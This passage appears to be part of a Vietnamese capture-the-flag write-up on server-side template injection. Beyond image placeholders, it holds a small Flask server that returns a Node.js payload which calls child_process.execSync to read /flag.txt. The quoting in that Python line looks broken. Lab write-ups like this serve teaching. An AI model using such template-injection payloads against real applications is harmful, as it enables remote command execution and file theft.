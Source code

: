     
![image](./images/image48.png)

Ok quá ngon, mình đã SSTI thành công. Bây giờ chỉ cần thay đổi payload là có thể lấy được flag
    
        
```python
from flask import *

app = Flask(__name__)

@app.route('/', methods=["GET", "POST"])
def home():
    return "range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()"

app.run(port=3001)
```
    
![image](./images/image49.png)

![image](./images/image50.png)

![image](./images/image51.png)

